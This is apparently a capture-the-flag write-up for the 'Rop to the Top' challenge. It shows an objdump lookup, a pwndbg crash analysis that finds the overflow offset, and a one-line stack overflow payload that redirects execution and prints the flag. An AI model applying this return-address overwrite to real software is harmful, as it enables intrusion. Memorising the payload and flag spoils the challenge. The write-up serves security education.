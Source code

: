 Rop to the Top
binary, 130

Rop, rop, rop
Rop to the top!
Slip and slide and ride that rhythm...

Here's some binary and source. Navigate to /problems/roptothetop/ on the shell server to try your exploit out!


HINT:
look up "Return Oriented Programming" (ROP) vulnerabilities and figure out how you might be able to change the return address.



user@4005fe92be0b /data/binary/rop_to_the_top $ objdump -t ./rop_to_the_top32 |
grep top
./rop_to_the_top32:     file format elf32-i386
00000000 l    df *ABS*  00000000              rop_to_the_top.c
080484db g     F .text  00000019              the_top

pwndbg> set args `cyclic 200`
pwndbg> run
Starting program: /data/binary/rop_to_the_top/rop_to_the_top32 `cyclic 200`
Now copying input...
Done!

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────
*EAX  0x6
*EBX  0xffd3a670 ◂— 0x62616164 ('daab')
*ECX  0x8bc4160 ◂— 0x656e6f44 ('Done')
*EDX  0xf775e890 ◂— 0x0
 EDI  0x0
*ESI  0xf775d000 ◂— 0x1d4d6c
*EBP  0x6161616b ('kaaa')
*ESP  0xffd3a630 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c










──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffd3a630 ◂— 0x6161616d ('maaa')
01:0004│      0xffd3a634 ◂— 0x6161616e ('naaa')
02:0008│      0xffd3a638 ◂— 0x6161616f ('oaaa')
03:000c│      0xffd3a63c ◂— 0x61616170 ('paaa')
04:0010│      0xffd3a640 ◂— 0x61616171 ('qaaa')
05:0014│      0xffd3a644 ◂— 0x61616172 ('raaa')
06:0018│      0xffd3a648 ◂— 0x61616173 ('saaa')
07:001c│      0xffd3a64c ◂— 0x61616174 ('taaa')
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► f 0 6161616c
   f 1 6161616d
   f 2 6161616e
   f 3 6161616f
   f 4 61616170
   f 5 61616171
   f 6 61616172
   f 7 61616173
   f 8 61616174
   f 9 61616175
   f 10 61616176
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg> cyclic -l kaaa
40

team332540@shell:/problems/roptothetop$ ./rop_to_the_top32 `python2.7 -c 'print "A"*44 + "\xdb\x84\x04\x08"'`
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault (core dumped)
